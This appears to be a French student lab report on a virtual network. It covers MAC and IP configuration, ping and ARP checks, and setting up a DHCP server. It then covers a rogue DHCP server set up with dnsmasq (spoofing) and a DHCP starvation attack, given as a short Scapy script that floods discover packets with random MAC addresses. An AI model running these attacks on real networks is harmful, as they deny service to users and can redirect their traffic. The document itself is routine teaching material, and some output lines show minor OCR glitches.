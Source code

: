 **1. Configuration d'un réseau local simple
Trouver les adresses MAC des machines
Pour vérifier l'adresse MAC de chaque machine :**

```PC1> show ip```
```
NAME        : PC1[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:00
LPORT       : 20002
RHOST:PORT  : 127.0.0.1:20003
MTU         : 1500
```
*Adresse MAC de PC1 : 00:50:79:66:68:00*


```PC2> show ip```

```
NAME        : PC2[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:01
LPORT       : 20004
RHOST:PORT  : 127.0.0.1:20005
MTU         : 1500
```
*Adresse MAC de PC2 : 00:50:79:66:68:01*

**Attribuer des adresses IP manuellement
Pour donner une IP à chaque machine :**

```PC1> ip 10.1.1.1/24```
```
Checking for duplicate address...
PC1 : 10.1.1.1 255.255.255.0
```

```PC2> ip 10.1.1.2/24```
```
Checking for duplicate address...
PC2 : 10.1.1.2 255.255.255.0
```
**Tester la communication entre les machines
Avec la commande ping :**

```PC1> ping 10.1.1.2```
```
84 bytes from 10.1.1.2 icmp_seq=1 ttl=64 time=0.302 ms
84 bytes from 10.1.1.2 icmp_seq=2 ttl=64 time=1.539 ms
84 bytes from 10.1.1.2 icmp_seq=3 ttl=64 time=1.405 ms
84 bytes from 10.1.1.2 icmp_seq=4 ttl=64 time=1.170 ms
84 bytes from 10.1.1.2 icmp_seq=5 ttl=64 time=0.281 ms
```

```PC2> ping 10.1.1.1```
```
84 bytes from 10.1.1.1 icmp_seq=1 ttl=64 time=0.185 ms
84 bytes from 10.1.1.1 icmp_seq=2 ttl=64 time=0.165 ms``
84 bytes from 10.1.1.1 icmp_seq=3 ttl=64 time=0.367 ms
84 bytes from 10.1.1.1 icmp_seq=4 ttl=64 time=0.606 ms
84 bytes from 10.1.1.1 icmp_seq=5 ttl=64 time=0.453 ms
```

**Vérifier les adresses avec ARP**

```PC1> arp ```         
```
00:50:79:66:68:01  10.1.1.2 expires in 108 seconds
```

```PC2> arp```
``` 
00:50:79:66:68:00  10.1.1.1 expires in 106 seconds
```

**2. Ajouter un switch et une troisième machine**

```PC3> ip 10.1.1.3```
```
Checking for duplicate address...
PC3 : 10.1.1.3 255.255.255.0
```

**3. Installer un serveur DHCP**

**Donner un accès Internet à la machine dhcp.tp1.efrei**
```
[toto@efrei-xmg4agau1 ~]$ ping google.com
PING google.com (216.58.214.174) 56(84) bytes of data.
64 bytes from mad01s26-in-f174.1e100.net (216.58.214.174): icmp_seq q = 1 ttl I = 63 time 37.0 ms
64 bytes from par10s42-in-f14.1e100.net (216.58.214.174): icmp_seq=2 ttl I = 63 time=29.4 ms
```

**Installer et configurer un serveur DHCP**


je me suis aidé de ce tuto https://gitlab.com/it4lik/b2-network-virt/-/blob/main/memo/rocky_network.md
```
dnf-y install dhcp-server
vi /etc/dhcp/dhcpd.conf
systemctl enable --now dhcpd
```

```
authoritative;
subnet 10.1.1.0 netmask 255.255.255.0 {
	range 10.1.1.10 10.1.1.50;
	option broadcast-address 10.1.1.1;
	option routers 10.1.1.1;
}
```
**Récupérer une IP automatiquement depuis les 3 nodes**

```
PC1> dhcp
DORA IP 10.1.1.10/24 GW 10.1.1.1

PC1> show ip

NAME        : PC1[1]
IP/MASK     : 10.1.1.10/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 563, 570/285/498
MAC         : 00:50:79:66:68:01
LPORT       : 20007
RHOST:PORT  : 127.0.0.1:20008
MTU         : 1500
```

```
PC2> dhcp
DDORA IP 10.1.1.12/24 GW 10.1.1.1

PC2> show ip

NAME        : PC2[1]
IP/MASK     : 10.1.1.12/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 594, 599/299/524
MAC         : 00:50:79:66:68:00
LPORT       : 20009
RHOST:PORT  : 127.0.0.1:20010
MTU         : 1500
```

```
PC3> dhcp
DDORA IP 10.1.1.11/24 GW 10.1.1.1

PC3> show ip

NAME        : PC3[1]
IP/MASK     : 10.1.1.11/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 584, 599/299/524
MAC         : 00:50:79:66:68:02
LPORT       : 20011
RHOST:PORT  : 127.0.0.1:20012
MTU         : 1500
```


**4 DHCP spoofing**

Installation de dnsmasq

```
dnf install -y dnsmasq
```

Configuration de dnsmasq

```
port=0 # pour désactiver DNS
dhcp-range=10.1.1.210,10.1.1.250,255.255.255.0,12h
dhcp-authoritative
interface=enp0s3
```
**TEST**
```
PC4> dhcp
DDORA IP 10.1.1.248/24 GW 10.1.1.50
```

```
PC4> show ip

NAME        : PC4[1]
IP/MASK     : 10.1.1.248/24
```
```
PC2> dhcp
DDORA IP 10.1.1.246/24 GW 10.1.1.50
```
```
PC3> dhcp
DDORA IP 10.1.1.247/24 GW 10.1.1.50
```
```
PC4> dhcp
DORA IP 10.1.1.21/24 GW 10.1.1.1
```

**5 DHCP starvation**

*je vais utilisier le script de cette video*  https://www.youtube.com/watch?v=VW0szfPHeo0&ab_channel=DavidBombal

```
from scapy.all import *

conf.checkIPaddr = False

dhcp_discover = Ether(dst='ff:ff:ff:ff:ff:ff',src=RandMAC()) \
				/IP(src='0.0.0.0',dst='255.255.255.255') \
				/UDP(sport=68,dport=67) \
				/BOOTP(op=1,chaddr = RandMAC()) \
				/DHCP(options=[('message-type','discover'),('end')])

sendp(dhcp_discover,iface='wlp4s0',loop=1,verbose=1)
```
**Effet de l'attaque**
Après avoir lancé le script :
•	Le serveur DHCP est à court d'adresses disponibles :

```DHCPDISCOVER from 64:38:3a:61:38:3a via enp0s3 network 10.1.1.0/24: no free leases ```

•	Les machines ne peuvent plus obtenir d’IP avec dhcp.
